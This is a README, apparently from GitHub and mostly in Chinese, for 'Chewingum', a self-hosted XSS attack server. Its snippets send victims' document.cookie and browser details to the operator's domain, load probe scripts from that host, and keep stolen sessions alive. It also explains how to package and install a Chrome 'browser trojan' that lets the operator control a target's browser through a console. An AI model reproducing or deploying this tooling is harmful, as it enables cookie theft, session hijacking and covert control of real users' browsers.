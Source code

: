 # Chewingum [alpha][0.202][1140430]

Name
----
***chewingum - individual XSS Server***

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
* (get_info.js) - [BeEF](http://beefproject.com/)
* (wec_cssbug.html) - [CSS3事件的消息回调BUG](http://www.web-tinker.com/article/20339.html)
* (get_networkip.js) - [Network IP Address via ipcalf.com](http://net.ipcalf.com/)

Helptext
--------

**1.Login**

采用filekey验证, 上传filekey或输入URL便可登录.

**2.Server**

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

**3.Server code keyword**

iferror  
对变量iferror赋值, 会触发对应错误.  
如:

	iferror = 404

returns  
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

gum.backinfo  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

**4.Project name and Object name**

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

**5.Plugins**

可以这样导入server扩展,

	with open('./static/serv/get_info.py') as files: exec files.read()

也可以这样

    from static.serv.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/brows/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

**6.Set code**

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

>	不推荐使用多次接收，默认已关闭。

**7.Easy example**

使用基本探针:

server:

    with open('./static/serv/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/brows/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

**8.Console**

javascript文件在

    ./static/brows/onexsshell.js

>    尚在测试阶段。

**9.Browser trojan**

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段

**10.Plugins header specification**

    Author[Reference] - Date
        Name - Dependencies
                - Synopsis
            Example
                and
            Dependencies Plus

>   好吧我知道不会有人帮我写插件的...
